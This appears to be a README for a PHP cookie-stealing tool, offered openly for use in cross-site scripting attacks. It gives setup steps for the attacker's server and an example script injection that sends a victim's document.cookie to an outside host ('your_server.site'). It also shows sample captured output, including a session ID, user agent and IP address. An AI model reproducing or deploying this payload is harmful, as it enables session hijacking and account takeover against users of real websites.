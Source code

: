 # CookieStealer.php
A PHP script to run on your server to grab cookies through xss.
Place in your webserver root folder, give permissions and start server

example injection:

<script> 
var i = new Image();
i.src="http://your_server.site/cookiestealer.php?g="+document.cookie;
</script>

example output:

Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
g=PHPSESSID=8lb9e51o6c4449rbjfhfi1prru4
192.168.1.69
